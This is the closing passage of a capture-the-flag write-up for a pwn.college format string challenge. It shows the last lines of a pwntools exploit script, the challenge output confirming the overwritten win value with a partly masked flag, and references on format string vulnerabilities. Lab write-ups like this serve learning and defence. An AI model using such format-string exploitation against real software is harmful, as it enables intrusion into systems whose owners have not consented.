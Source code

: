```python
info(f'The offset of the win value start of format string+0x130, so win value offset: {offset+int((0x130)/8)}')
info(f'Builded Payload: {repr(payload)}')
io.interactive()
```

**The result:**

```rust
And now, let's check the win value!
Checking win value...
... desired win value: 0x709953
... written win value: 0x709953
... SUCCESS! Here is your flag:
pwn.college{sKTvWi************************************MzEzW}
### Goodbye!
```

## References

- **glibc Manual – Formatted Output**  
    [https://www.gnu.org/software/libc/manual/html_node/Formatted-Output.html](https://www.gnu.org/software/libc/manual/html_node/Formatted-Output.html)

- **man 3 printf** (POSIX printf specifiers, including `*m$` and `%n`)  
    [https://man7.org/linux/man-pages/man3/printf.3.html](https://man7.org/linux/man-pages/man3/printf.3.html)

- **The Open Group Base Specifications – fprintf()** (rules for positional arguments)  
    [https://pubs.opengroup.org/onlinepubs/9699919799/functions/fprintf.html](https://pubs.opengroup.org/onlinepubs/9699919799/functions/fprintf.html)

- **CERT C – FIO30-C: Exclude user input from format strings**  
    [https://wiki.sei.cmu.edu/confluence/display/c/FIO30-C.%2BExclude%2Buser%2Binput%2Bfrom%2Bformat%2Bstrings](https://wiki.sei.cmu.edu/confluence/display/c/FIO30-C.%2BExclude%2Buser%2Binput%2Bfrom%2Bformat%2Bstrings)

- **MITRE CWE-134 – Externally-Controlled Format String**  
    [https://cwe.mitre.org/data/definitions/134.html](https://cwe.mitre.org/data/definitions/134.html)

- **Pwntools Documentation – Format String Exploits**  
    [https://docs.pwntools.com/en/stable/fmtstr.html](https://docs.pwntools.com/en/stable/fmtstr.html)

- **Pwntools Source – `fmtstr_payload` Implementation**  
    [https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/fmtstr.py#L1027](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/fmtstr.py#L1027)

- **Exploit Education – Format String Vulnerabilities**  
    [https://exploit.education/phoenix/format-string/](https://exploit.education/phoenix/format-string/)

- **CTF 101 – Format String Vulnerability**  
    [https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)

- **pwn.college – Format String Exploits**  
    [https://pwn.college/software-exploitation/format-string-exploits](https://pwn.college/software-exploitation/format-string-exploits)
